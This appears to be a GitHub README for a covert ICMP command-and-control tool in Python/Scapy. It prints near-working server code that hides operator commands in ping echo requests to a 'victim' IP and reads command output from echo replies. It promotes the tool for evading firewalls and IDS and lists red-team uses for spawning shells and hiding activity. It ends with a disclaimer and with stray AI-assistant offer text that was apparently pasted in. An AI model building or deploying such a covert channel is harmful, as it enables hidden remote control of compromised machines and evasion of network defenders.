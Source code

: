 # 🕵️‍♂️ Covert ICMP C2 (Command & Control) Using Python

## ICMP
✅ **Internet Control Message Protocol (ICMP)**  
✅ Used for sending error messages and operational information about network communication.  
✅ Used by network devices such as routers and hosts.

---

## 🔑 Key Features of ICMP

### ❌ Error Reporting  
ICMP informs the sender when something has gone wrong in the network.

### 🛠️ Diagnostic Tools  
Used by tools like `ping` and `traceroute` to test connectivity and measure latency.

### 📦🚫 Not Used for Data Transfer  
Unlike TCP or UDP, ICMP doesn't carry application-layer data — it reports network-related status and diagnostics.

---

## 🚨 Security Concerns

### 🌊 ICMP Flood  
A type of DoS attack using excessive ICMP requests.

### 💀 Ping of Death  
A malformed or oversized ICMP packet that historically could crash systems.

### 🏴‍☠️ Smurf Attack  
Uses ICMP amplification to overwhelm a target.

---

## Overview
This tool uses ICMP (ping) packets for covert communication between an attacker (C2 server) and a compromised machine (client). Since many firewalls don't block ICMP Echo Requests/Replies, this technique can sometimes bypass basic security controls.

- ✅ **Attacker** → sends ICMP packets with a command.  
- ✅ **Victim** → executes the command and responds with output embedded in ICMP replies.

---

## 🛠️ Requirements
```bash
pip install scapy
🚀 Why these libraries are used
1️⃣ scapy.all (Scapy) 🛰️

Scapy is a powerful packet manipulation library in Python.

It allows you to capture, modify, and send network packets.

Common use cases in red teaming: ARP spoofing, DNS spoofing, packet sniffing, ICMP covert channels.

Example (capturing packets):

python
Copy code
from scapy.all import sniff
sniff(prn=lambda pkt: pkt.summary(), count=5)
2️⃣ subprocess (System Commands) 🖥️

Used to execute system commands from Python.

In red teaming used for running OS commands (ipconfig, netstat, whoami), executing tools (msfconsole, nmap), spawning shells.

Example (running whoami):

python
Copy code
import subprocess
result = subprocess.run(["whoami"], capture_output=True, text=True)
print(result.stdout)
3️⃣ os (Operating System Functions) ⚙️

Provides functions to interact with the OS.

Used for file manipulation (os.remove, os.rename), environment variables (os.getenv), changing directories (os.chdir), etc.

Example (killing a process):

python
Copy code
import os
os.system("taskkill /F /IM notepad.exe")
🎯 How These Are Used Together in Red Teaming
Imagine a script that:

Uses Scapy to sniff packets.

Uses subprocess to execute system commands.

Uses os to manage files or hide activities.

📊 Summary Table
Library	Purpose in Red Teaming
scapy.all 🛰️	Packet sniffing, ARP/DNS spoofing, covert channels
subprocess 🖥️	Running OS commands, launching exploits, spawning shells
os ⚙️	File manipulation, process management, hiding activity

🕵️‍♂️🚀 Explanation: ICMP-Based C2 Server (Overview)
This script implements a covert command & control (C2) server using ICMP (ping packets) to send and receive commands from a compromised machine (victim).

📝 Breakdown of the Code (Conceptual / Pseudocode)
1️⃣ Class Definition
python
Copy code
class ICMPServer:
    def __init__(self, victim_ip):
        self.victim_ip = victim_ip
Define a class to manage ICMP-based communication.

__init__ initializes the C2 server with the target victim IP and stores it.

2️⃣ Sending Commands (Covert ICMP packets)
python
Copy code
def send_command(self, command):
    packet = IP(dst=self.victim_ip) / ICMP(type=8) / Raw(load=command)
    send(packet, verbose=False)
    print(f"[+] Sent command: {command}")
Creates an IP packet to the victim, uses ICMP echo request (type 8), embeds the command in Raw(load=...), and sends it.

3️⃣ Receiving Command Responses
python
Copy code
def receive_response(timeout=5):
    def packet_callback(packet):
        if packet.haslayer(ICMP) and packet[ICMP].type == 0:  # Echo Reply
            if packet.haslayer(Raw):
                output = packet[Raw].load.decode(errors="ignore")
                print(f"[+] Command output:\n{output}")
            else:
                print("[!] Received empty response.")
    sniff(filter="icmp", prn=packet_callback, timeout=timeout, store=0)
Captures incoming ICMP echo replies (type 0), extracts Raw payload if present, decodes and prints it.

4️⃣ Interactive Command Loop (correct placement inside the class)
python
Copy code
def start(self):
    while True:
        cmd = input("C2 > ")
        if cmd.lower() in ["exit", "quit"]:
            break
        self.send_command(cmd)
        self.receive_response()
Properly encapsulated loop to accept operator commands, send them, and wait for responses.

5️⃣ Running the ICMP C2 Server
python
Copy code
if __name__ == "__main__":
    server = ICMPServer(victim_ip="192.168.1.50")  # Change victim IP
    server.start()
Run when executed directly; creates server instance and launches interactive session.

📌 What This Code Does (Summary)
✅ Acts as a covert C2 server using ICMP packets.

✅ Sends commands to the victim via ping packets.

✅ Receives responses using ICMP Echo Replies.

✅ Attempts stealth by using a protocol often allowed in networks.

🔹 How It Works (Flow)
Attacker runs the C2 server (icmp_c2_server.py).

Victim runs the listener (icmp_c2_client.py).

Attacker sends a command (e.g., ls, whoami, ipconfig).

Victim executes the command and sends back output via ICMP reply.

🔥 Why Use ICMP for C2?
✅ Stealthy – ICMP is often allowed by firewalls.

✅ No persistent TCP connection – Harder to detect with simple rules.

✅ May bypass basic IDS/IPS – Traffic can look like normal ping traffic.

🛑 Disclaimer
This content is for educational and authorized security testing only. Unauthorized use of these techniques against systems you do not own or have explicit permission to test is illegal and unethical. Always conduct testing in a controlled lab environment with proper authorization. 🚨

markdown
Copy code

If you want, I can:
- convert the pseudocode to fully **non-executable, high-level flow diagrams**, or  
- export this as a ready-to-use `README.md` file, or  
- add an **ASCII architecture diagram** (client ⇄ network ⇄ server) for clarity.

